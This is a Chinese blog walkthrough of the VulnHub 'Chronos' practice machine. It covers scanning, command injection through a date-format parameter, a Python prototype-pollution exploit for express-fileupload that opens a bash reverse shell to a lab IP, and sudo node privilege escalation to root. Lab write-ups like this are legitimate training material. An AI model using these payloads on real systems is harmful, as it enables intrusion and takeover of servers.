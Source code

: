 ```yaml
---
title: VulnHub靶场 Chronos
description: VulnHub靶场 Chronos WP
pubDate: 10 20 2024
image: https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-5.png?imageSlim
categories:
  - 网络安全
tags:
  - 靶场
  - VulnHub靶场
  - 渗透测试
---
```


进行二层发现

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-1.png?imageSlim)

发现目标主机为 `192.168.135.105`，进行端口扫描

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-2.png?imageSlim)

发现目标主机上开放 80 端口，访问目标端口 HTTP 服务

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-6.png?imageSlim)

没啥东西，尝试目录扫描，也没出货。查看源码

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-4.png?imageSlim)

这里存在一段 JS，不过有一些混淆。不过这里有一个明文的 URL

```url
http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL
```

这里端口是 8000 端口，而且我们在进行端口扫描的时候，也发现了目标主机上开放了 8000 端口。而这个域名 `chronos.local`，可能就是靶机。我们可以添加个 hosts 试试。然后再刷新页面

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-5.png?imageSlim)

页面发生了变化，我们直接访问 `http://chronos.local:8000`。不过在 windows 上经过测试，需要添加 UA 头，值为 `Chronos`。再次访问，得到如下结果

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-7.png?imageSlim)

没啥东西了，重点应该就是这个 `4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL`，尝试解一下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-8.png?imageSlim)

那么他是怎么输出的呢？

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-9.png?imageSlim)

结果和我们页面返回的一样。那么我们猜测后端其实就是执行了一个 date 命令，那么利用管道符就可以执行目标命令

```
date +Today is %A, %B %d, %Y %H:%M:%S.' || ls
```

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-10.png?imageSlim)

重放进行尝试

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-11.png?imageSlim)

得到 ls 命令结果，命令执行成功。使用 nc 进行反弹，失败，使用 MSF，成功

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-12.png?imageSlim)

一番找，在 `/opt/chronos-v2/backend` 下发现个 `package.json`

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-13.png?imageSlim)

```json
{
  "name": "some-website",
  "version": "1.0.0",
  "description": "",
  "main": "server.js",
  "scripts": {
    "start": "node server.js"
  },
  "author": "",
  "license": "ISC",
  "dependencies": {
    "ejs": "^3.1.5",
    "express": "^4.17.1",
    "express-fileupload": "^1.1.7-alpha.3"
  }
}
```

这里有一些 `chronos-v2` 引用的库，这里有个 `express-fileupload`，该库存在 JS 原型污染，并且在服务端，必要条件 `parseNested` 为 True 也存在

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-14.png?imageSlim)

exp 如下

```python
import requests

cmd = 'bash -c "bash -i &> /dev/tcp/192.168.135.192/8888 0>&1"'

# pollute
requests.post(
    'http://127.0.0.1:8080',
    files={
        '__proto__.outputFunctionName':
        (None,
         f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x"
         )
    })

# execute command
requests.get('http://127.0.0.1:8080')
```

注意，由于是 `server.js` 下存在这个漏洞，它的监听端口是 `127.0.0.1:8080`，所以不要搞错 IP 端口。

把文件传到 `/tmp` 下，运行，即可得到反弹 shell

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-15.png?imageSlim)
但是不是 root 权限，我们使用 `sudo -l` 查看

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-16.png?imageSlim)

可以看到，`/usr/local/bin/node` 有 root 权限。使用 node 进行提权

```shell
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-17.png?imageSlim)

然后再传 MSF 马，得到 root 权限

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-18.png?imageSlim)
